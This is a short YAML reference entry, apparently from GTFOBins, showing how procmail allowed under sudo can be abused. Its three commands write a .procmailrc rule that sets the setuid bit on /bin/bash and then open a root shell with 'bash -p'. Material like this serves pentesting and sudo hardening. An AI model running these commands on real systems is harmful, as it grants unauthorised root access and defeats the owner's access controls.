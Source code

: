 ```yaml
---
description: |
    Procmail is an email server software component.
functions:
  sudo:
   - description: By modifying/creating a procmailrc configuration file, we can specify a processing rule for any command we want.
     code: |
        echo -e ':0\n| chmod u+s /bin/bash' > .procmailrc
        echo "gtfobins" | sudo procmail -m .procmailrc
        bash -p
---
```

